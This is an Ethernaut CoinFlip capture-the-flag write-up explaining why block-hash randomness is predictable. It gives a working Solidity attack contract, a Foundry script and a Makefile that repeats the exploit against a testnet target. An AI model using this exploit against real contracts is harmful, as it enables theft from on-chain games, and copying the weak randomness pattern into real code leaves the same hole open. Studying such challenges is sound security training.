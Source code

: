 # Ethernaut Level 3

---

Contract:

```solidity
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

Since blockchains are deterministic systems, getting real random numbers is a challenge if we want to add randomness to our contracts. A common practice is to use `Chainlink VRF` to fulfill random number requests from our contracts while Chainlink nodes provide decentuality and safety.

In this contract, the way it attempts randomness is problematic: we can simply do the exact same thing in our attack contract and we will get the same result of  `side` as original contract. We want to first run the process before calling `flip` and feed the result directly to `_guess` so that we will acheive 100% success rate.

We use Foundry for solution. For `CoinFlipAttack.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipAttack {
    ICoinFlip coinFlip;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _coinFlipAddress) {
        coinFlip = ICoinFlip(_coinFlipAddress);
    }

    function attack() external {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        bool side = (blockValue / FACTOR) == 1 ? true : false;
        coinFlip.flip(side);
    }
}
```

We use an Interface since we mainly just want to deal with `flip` method from the original contract. Then in the attack contract, we reimplemented the "randomness" logic as original contract and wired the result directly to `flip` method.

In `CoinFlip.s.sol`:

```solidity
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {CoinFlip} from "../src/CoinFlip.sol";
import {CoinFlipAttack} from "../src/CoinFlipAttack.sol";

contract CoinFlipScript is Script {
    address TARGET_ADDRESS = 0xXXXXX;
    CoinFlip coinFlip = CoinFlip(TARGET_ADDRESS);
    
    function run() external {
        vm.startBroadcast();
        CoinFlipAttack coinFlipAttack = new CoinFlipAttack(TARGET_ADDRESS);
        coinFlipAttack.attack();
        vm.stopBroadcast();
        console.log("After attack: consecutiveWins =", coinFlip.consecutiveWins());
    }
}
```

We have to pay extra attention that we cannot use a for loop to do it ten times since there's a mechanism in the original contract to prevent transactions from the same block:

```solidity
if (lastHash == blockValue) {
    revert();
}
```

So we have to run the script ten times. We use a Makefile to automate this process:

```makefile
# Makefile

ifneq (,$(wildcard .env))
    include .env
    export
endif

TIMES ?= 10
SCRIPT := script/CoinFlip.s.sol:CoinFlipScript
RPC_URL ?= $(SEPOLIA_RPC_URL)
ACCOUNT ?= default

run-one:
	forge script $(SCRIPT) --broadcast --rpc-url $(RPC_URL) --account $(ACCOUNT) -vv

run-loop:
	@i=1; \
	while [ $$i -le $(TIMES) ]; do \
	  echo "=== Running attempt $$i of $(TIMES) ==="; \
	  make run-one; \
	  i=$$(( $$i + 1 )); \
	done

.PHONY: run-one run-loop
```

We can always check the `consecutiveWins()` using Foundry `cast`:

```bash
cast call 0xXXXXXXXXX "consecutiveWins()(uint256)" --rpc-url $SEPOLIA_RPC_URL
```

If you run `make run-one` each for a time, you can use this command to see an increment to the `consecutiveWins()`.

